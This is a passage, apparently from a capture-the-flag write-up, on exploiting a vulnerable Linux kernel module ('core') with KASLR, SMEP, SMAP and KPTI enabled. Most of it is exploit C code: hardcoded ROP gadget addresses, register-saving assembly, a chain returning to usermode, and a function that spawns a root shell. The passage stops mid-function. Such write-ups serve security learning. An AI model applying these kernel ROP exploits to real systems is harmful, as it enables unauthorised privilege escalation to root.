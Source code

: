 ```c
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x100);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}
```

### Lv.4 KCANARY + FGKASLR + SMEP + SMAP + KPTI

For this challenge, FGKASLR is not very useful because we can know the positions of all symbols. Moreover, it was not actually enabled during compilation (xiao).

#### Method 0x1 - .text Gadgets

We will use the original method, but this time we need to calculate the offset using `swapgs_restore_regs_and_return_to_usermode` because the range from `0xffffffff81000000` to `0xffffffff83000000` is within the same section, and the offset remains constant. Our gadgets are located in this segment.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <signal.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define POP_RAX_RET 0xffffffff810520cf
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define IRETQ 0xffffffff81050ac2

#pragma clang diagnostic ignored "-Wconversion"  // makes me happy

size_t user_cs, user_ss, user_rflags, user_sp;
size_t prepare_kernel_cred, commit_creds, swapgs_restore_regs_and_return_to_usermode;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;");
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

void shell() {
    if (!getuid()) {
        system("/bin/sh");
    } else {
        puts("\033[31m\033[1m[-] Exploit failed.\033[0m");
        exit(0);
    }
}

void core_read(int fd, char* buf) {
```